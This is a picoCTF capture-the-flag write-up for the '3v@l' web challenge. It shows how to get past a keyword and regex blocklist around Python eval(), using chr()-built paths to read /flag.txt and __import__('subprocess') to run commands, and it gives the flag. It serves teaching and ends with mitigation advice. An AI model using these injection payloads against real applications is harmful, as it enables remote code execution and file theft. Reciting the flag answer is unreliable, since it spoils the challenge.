




>> picoCTF — 3v@l Writeup
---

**Challenge name:** 3v@l  
**Category:** Web / Python Eval Injection (RCE)  
**Difficulty:** Medium  
**Author:** NIGHTFURY0X01(Arash)

---  
## Overview

This challenge involved exploiting a vulnerable loan calculator used by
"ABC Bank."\
The backend used Python's **eval()** on user input with partial
filtering.\
Your objective was to bypass the filters, achieve **Remote Code
Execution (RCE)**, and ultimately read the flag at `/flag.txt`.

---

## Given Security Measures

1.  **Blocked keywords**

        os, eval, exec, bind, connect, python, socket, ls, cat, shell

    Anything containing these was filtered.

2.  **Regex blocklist**

        r'0x[0-9A-Fa-f]+|
          \u[0-9A-Fa-f]{4}|
          %[0-9A-Fa-f]{2}|
          \.[A-Za-z0-9]{1,3}|
          [\\/]|
          \.\.'

    This blocked:

    -   Hex, unicode, URL encoding
    -   File extensions
    -   Slashes `/` `\`
    -   `..` directory traversal

This made typical payloads impossible.

---

## Step 1 -- Understanding the Core Weakness

The website directly executed:

``` python
eval(user_input)
```

Because of that, Python object access, dynamic string construction, and
hidden imports were all still possible.

Even though `/` was blocked, it was allowed **if constructed
dynamically**, such as with:

``` python
chr(47)
```

This allowed bypassing the filter safely.

---

## Step 2 -- Bypassing Path Restrictions

The file path `/flag.txt` contains: - `/` (blocked) - `.txt` (blocked by
file-extension regex)

We reconstructed it piece by piece:

``` python
open(chr(47) + "flag" + chr(46) + "txt").read()
```

Where: - `chr(47)` → "/" - `chr(46)` → "."

This gave full file path access **without triggering any filters**.

---

## Step 3 -- Achieving RCE with `__import__`

Since `os` was blocked but not the import mechanism itself, we used:

``` python
__import__("subprocess").getoutput("id")
```



This bypassed the blocklist because: - `subprocess` was **not**
blocked - `getoutput()` allowed command execution - No slashes or
extensions were required

This returned:

    uid=999(app) gid=999(app) groups=999(app)



Meaning remote code execution was successful.

---

## Step 4 -- Final Payload for Getting the Flag

    open(chr(47)+"flag"+chr(46)+"txt").read()



This successfully revealed the flag.

---

## Summary Table

  ----------------------------------------------------------------------------------------------------------
  Goal    Normal Payload      Blocked Because of Filters        Bypass
  ------- ------------------- --------------------------------- --------------------------------------------
  Read    `/flag.txt`         `/` and `.txt` blocked            `chr(47)+"flag"+chr(46)+"txt"`
  file                                                          

  RCE     `os.system("id")`   `os` blocked                      `__import__("subprocess").getoutput("id")`
  ----------------------------------------------------------------------------------------------------------

------------------------------------------------------------------------

## Final Thoughts

This challenge demonstrates: - Why **eval() is extremely dangerous** -
How simple blacklist filters are easily bypassed - The power of: -
dynamic construction (`chr()`) - dunder methods (`__import__`) - Python
standard library modules (`subprocess`)

Proper mitigation requires: - Full sandboxing - Real whitelisting -
Removing eval entirely

------------------------------------------------------------------------

## Final Payloads

### Read the flag

    open(chr(47)+"flag"+chr(46)+"txt").read()
---

## Flag



```bash
Result: picoCTF{D0nt_Use_Unsecure_f@nctions134bc436}
```